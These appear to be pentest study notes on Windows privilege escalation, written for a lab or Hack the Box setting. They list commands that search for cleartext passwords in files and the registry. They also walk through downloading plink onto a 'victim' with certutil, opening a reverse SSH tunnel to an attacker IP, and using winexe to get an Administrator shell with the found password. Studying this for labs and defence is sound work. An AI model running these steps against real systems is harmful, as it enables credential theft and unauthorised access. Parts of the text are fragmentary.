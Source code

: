 
To search for passwords that may be stored in clear text on a system, you can perform a file system search for files that commonly store passwords, such as configuration files, log files, or database files. Additionally, you can search for keywords or patterns that are often associated with passwords, such as "password," "pass," or "secret." Keep in mind that searching for passwords in clear text is a sensitive task and should only be performed on systems you have proper authorisation to access.

If you find passwords - you should try them! dont assume they wont work.

Just a good guide for prive esc
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

## Cleartext Passwords

### Search for them

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In Files

These are common files to find them in. They might be base64-encoded. So look out for that.

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

### In Registry

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Plink from Putty
Nightmare fuel

To do this we can use Plink which you can download [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) (make sure to download the 32 bit version).

Once it’s downloaded, we need to get it on to our victim machine. From inside Alfred’s home directory (since we have write access there) we can use Python to run a http server on our machine and use `certutil` to download the file from the victim machine.

On Kali machine: `python3 -m http.server`

On victim machine: `certutil -urlcache -f http://<your_ip>:8000/plink.exe plink.exe`

Now that we have everything on the victim machine in place, we need to get our Kali machine in order. First, we need to make sure we have an ssh server running.

If you don’t have ssh installed, you can do so with `apt install ssh` and make sure it’s started with `service ssh start`

Next, we need to edit `/etc/ssh/sshd_config` and change PermitRootLogin to “yes”.

I also changed the ssh port to 2222 instead of 22 because Hack the Box did not like connecting on port 22 for some reason.

Once we have those settings changed, reload the ssh config with `service ssh reload`

Now that that’s all squared away, we will use Plink to connect back to our Kali machine from the victim machine, forwarding port 445 so we can connect to it.

plink.exe -P 2222 -l root -pw toor 10.10.14.84 -R 445:127.0.0.1:445

the Kali machine from the victim machine. But we have made port 445 available to us on our Kali machine, which we can confirm with netstat.


Now, Kali has a way for us to execute Windows commands using `winexe` which we will use to try and authenticate as Administrator using the password we discovered earlier and launch a command prompt.

winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"


And we get a shell as Administrator!